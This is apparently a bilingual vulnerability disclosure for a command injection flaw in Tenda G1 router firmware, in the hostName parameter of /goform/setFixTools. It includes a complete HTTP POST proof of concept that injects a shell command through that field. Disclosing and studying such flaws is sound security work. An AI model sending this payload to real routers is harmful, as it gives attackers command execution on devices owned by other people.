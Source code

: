 # Tenda G1_Command_injection

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin && US_G1V1.0&G3V3.0br_V15.11.0.17(9502)_CN_TDC 2.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com) && doudou.zhu@dbappsecurity.com.cn

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html && https://www.tenda.com.cn/download/detail-3108.html



#### Describe

 Some problems exist on the Tenda G1 router. In the diagnostics  /goform/setFixTools/ configuration interface, the command injection exists for the post parameter hostName

一些问题存在Tenda G1路由器上，在配置界面Diagnostics下/goform/setFixTools/，其post参数hostName存在命令注入

#### Detail

In IDA  the formsetnetchecktools function is called as follows( the file is httpd )

在IDA中formSetNetCheckTools函数有如下调用

<img src="./img/image-20210919131609946.png" alt="image-20210919131609946" style="zoom:50%;" />

follow-up cmd_get_ping_out_put ruction

跟进cmd_get_ping_out_put

<img src="./img/image-20210919131745039.png" alt="image-20210919131745039" style="zoom:50%;" />



#### TEST



<img src="./img/image-20210919131508474.png" alt="image-20210919131508474" style="zoom:50%;" />

<img src="./img/image-20210919131354946.png" alt="image-20210919131354946" style="zoom:50%;" />



<img src="./img/image-20210919131450157.png" alt="image-20210919131450157" style="zoom:50%;" />



#### POC

```
POST /goform/setFixTools HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 71

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/sysManage/sysTool.html?0.8581860712391024

Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=aaa;sh;192.168.10.1&packageNum=4&packageSize=100
```


